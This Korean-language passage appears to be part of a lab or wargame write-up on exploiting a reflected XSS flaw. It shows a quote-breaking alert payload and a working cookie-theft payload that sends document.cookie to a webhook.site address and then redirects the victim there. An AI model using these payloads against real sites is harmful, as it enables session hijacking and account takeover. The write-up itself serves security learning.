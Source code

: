 ```js
]');alert('취약')//
```

- 위 페이로드를 입력한 결과, **`취약`이라는 메시지를 포함한 alert 창이 정상적으로 출력**되었다.

- 위 취약점을 이용하여 **쿠키를 탈취하는 악성 스크립트를 삽입**할 예정이다.

**일단 페이로드의 정상 작동 여부를 확인하기 위해, 본인의 쿠키 값을 Webhook으로 전송하는 테스트를 먼저 수행하였다.**

- 이번에는 쿠키 값을 수신한 후, 특정 페이지로 리다이렉트하는 방식으로 공격을 진행할 것이다.

```html
]');new+Image().src="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01?cookie="%2Bdocument.cookie;location.href="https://webhook.site/00da818a-c861-444c-8a3a-c50bd3e46a01";//&pw=123123
```

**위와 같이 페이로드를 작성한 후, 실행 결과:**

![xss6 redirect](./screenshots/xss6_redirect.png)

- 쿠키 전송이 완료되면, 페이로드 내 `location.href`에 의해 사용자는 지정된 페이지로 리다이렉트된다.
